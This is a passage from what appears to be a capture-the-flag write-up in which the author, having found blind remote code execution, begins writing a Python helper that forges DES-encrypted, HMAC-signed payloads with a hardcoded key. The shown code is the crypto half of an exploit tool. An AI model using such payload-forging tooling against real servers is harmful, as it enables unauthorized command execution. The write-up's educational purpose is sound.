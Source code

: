 That looks like `RCE` to me! But no reverse shell yet. Before I went further, I wanted to setup a simple `cmdinjection.py` so I don't have to manually repeat all the steps above. This script serves as some kind of terminal (but without output, since we are dealing with blind injection).

Command tool:

```python
#!/usr/bin/env python3
import requests
from os import system
import sys
import subprocess
import hmac
import hashlib
import binascii
from Crypto.Cipher import DES
from base64 import b64decode, b64encode
from cmd import Cmd

B64KEY = 'SnNGOTg3Ni0='
HMACSHA1_SIZE = 20
BLOCK_SIZE = 8

def tohex(s):
    return binascii.hexlify(s)

def make_hmac(message, key):
    digest = hmac.new(key, message, hashlib.sha1)
    signature = digest.digest()
    return signature

def check_hmac(message, hmac, key):
    verify_hmac = make_hmac(message, key)
    if hmac != verify_hmac:
        return False
    return True

def pad(plain_text):
    number_of_bytes_to_pad = (BLOCK_SIZE - len(plain_text) % BLOCK_SIZE) % BLOCK_SIZE
    ascii_string = chr(number_of_bytes_to_pad)
    padding_str = (number_of_bytes_to_pad * ascii_string).encode('utf-8')
    padded_plain_text =  plain_text + padding_str
    return padded_plain_text

def decrypt(key, s):
    key_dec = b64decode(key)
    data_dec = b64decode(s)
    hmac = data_dec[-HMACSHA1_SIZE:]
    ciphertext = data_dec[:-HMACSHA1_SIZE]
    des = DES.new(key_dec, DES.MODE_ECB)
    plaintext = des.decrypt(ciphertext)
    if not check_hmac(ciphertext, hmac, key_dec):
        print("Invalid HMAC")
    sys.stdout.write(plaintext)

def encrypt(key, plaintext):
    key_dec = b64decode(key)
    plaintext = pad(plaintext)
    des = DES.new(key_dec, DES.MODE_ECB)
    ciphertext = des.encrypt(plaintext)
    hmac = make_hmac(ciphertext, key_dec)
    if not check_hmac(ciphertext, hmac, key_dec):
        print("Invalid HMAC")
    message = ciphertext + hmac
    message_b64 = b64encode(message)
```